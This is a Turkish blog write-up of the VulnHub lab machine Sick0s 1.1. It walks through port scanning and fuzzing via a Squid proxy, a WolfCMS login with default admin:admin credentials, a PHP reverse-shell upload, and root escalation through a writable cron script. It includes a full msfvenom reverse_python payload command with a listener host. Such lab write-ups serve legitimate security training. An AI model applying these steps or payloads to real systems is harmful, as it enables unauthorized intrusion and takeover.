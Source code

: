 ```yaml
---
layout: post
title: "Sick0s:1.1 Writeup"
date: 2018-06-08
excerpt: "08 Jun 2018"
comments: false
---
```

Sick0s 1.1 zafiyetli makinasında bizden istenen root yetkilerine erişmek. Quaoar'da karşılaştığımız senaryo ile oldukça benzer.
Makinayı indirmek,daha ayrıntılı bilgi almak için [bu](https://www.vulnhub.com/entry/sickos-11,132/) linki kullanabilirsiniz.
Öncelikle makinaya ait ip adresini öğreniyorum.
<figure >
    <img src="/assets/img/sickos/sickosip.png">
</figure>
Ardından basit bir nmap taraması ile açık portları ve üzerinde çalışan servisleri öğreniyorum.
<figure >
    <img src="/assets/img/sickos/sickosnmap.png">
</figure>
Aldığım çıktı sonucunda çok mu basit oldu diye düşünmedim değil. Daha geniş bir port aralığını taramaya karar verdim.
Zaman alan bir tarama olduğu için bu esnada Squid Http Proxy nedir, ne iş yapar diye biraz bakındım. Özet olarak  böyle bir sonuca vardım.

> Squid HTTP,HTTPS,FTP gibi web servisleri için proxy cache yapan aynı zamanda internet çıkışlarını filtreliyerek yönetmeyi       sağlayan bir proxy serverdır.

Bu proxy server üzerinden bir nmap taraması başlatmadan önce, tarayıcıda proxy ayarlarını set edip 80 portuna gitmeyi denedim ve başarılı oldum. 
<figure >
    <img src="/assets/img/sickos/sickosproxy.png">
</figure>
Dikkatimizi çeken herhangi bir şey ile karşılaşmadım ve proxy üzerinden fuzzing işlemi başlattım.
#### dirb http://192.168.1.53 -p 192.168.1.53:3128
<figure >
    <img src="/assets/img/sickos/sickosdirb.png">
</figure>
http://192.168.1.53/robots.txt adresini ziyaret ettiğimde /wolfcms şeklinde bir entry ile karşılaştım.Wolfcms hakkında daha önce fikir sahibi olmadığım için başlangıçta bir servis olduğunu anlayamadım. Üzerine biraz araştırma yaptıktan sonra PHP tabanlı bir "content management system" olduğunu öğrendim. Muhtemelen zafiyetli bir versiyondur düşüncesiyle, versiyon bilgisinin sızdırıldığı bir sayfa bulmak için baya dolandım. Fakat bir sonuca ulaşamadım.
Exploit ararken http://targetsite.com/wolfcms/?/admin/plugin/file_manager/browse/ şeklinde bir path buldum. Daha önce /wolfcms dizini için fuzzing yapmıştım, fakat  ?/dizin şeklinde yapılandığı için işe yarar çok bir şey dönmemişti.
Bu sayede  login sayfasına erişim sağladım. Daha önceki hatalarımdan ders çıkarıp ilk olarak admin:admin ikilisini denedim ve başarıyla sonuçlandı :)
Tabi ki ilk işim php reverse shell içeren bir php kodu yüklemek oldu.Daha önce fuzzing işlemi sırasında /wolfcms/public/images pathini öğrenmiştim. Files>upload kısmından [buradaki](https://github.com/pentestmonkey/php-reverse-shell) kodu  images/ dizinine  yükleyip, tarayıcıdan çağırdığımda www-data kullanıcısı ile bir shell elde etmiş oldum.
<figure >
    <img src="/assets/img/sickos/sickosshell.png">
</figure>
Sistem hakkında genel bir bilgi sahibi olabilmek için [bu](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py) scripti çalıştırdım.
Post exploitation için best practice olarak kabul edilen şeylerden birini yapıp, var olan cron dosyalarını inceledim.
<figure >
    <img src="/assets/img/sickos/sickoscron.png">
</figure>
Dosyalardan birini okuduğumda, root kullanıcısı tarafından her dakika çalıştırılan bir script ile karşılaştım.
<figure >
    <img src="/assets/img/sickos/sickoscron2.png">
</figure>
Scriptin var olduğu dizine gittiğimde güzel bir sürpriz ile karşılaştım.Dosya üzerinde tüm haklara sahiptim.Demek oluyorki dosyayı istediğim gibi manipüle edebilirim.
<figure >
    <img src="/assets/img/sickos/sickospy.png">
</figure>
connect.py dosyasının içeriğini bana shell verecek olan bir python koduyla değiştirdim.Bunun için msfvenom ile bir payload oluşturdum. 
#### msfvenom -p cmd/unix/reverse_python LHOST=192.168.1.55 LPORT=7777 -f raw
connect.py dosyasının içeriğini payload ile değiştirip, ardından bir dinleme başlatıp sistemin scripti çalıştırmasını bekledim. 
<figure >
    <img src="/assets/img/sickos/sickosx.png">
</figure>
Scripti çalıştıran root kullanıcısı olduğu için dolayısıyla bende root yetkileri ile shell elde etmiş oldum.
<figure >
    <img src="/assets/img/sickos/sickosroot.png">
</figure>
<figure >
    <img src="/assets/img/sickos/sickos.gif">
</figure>
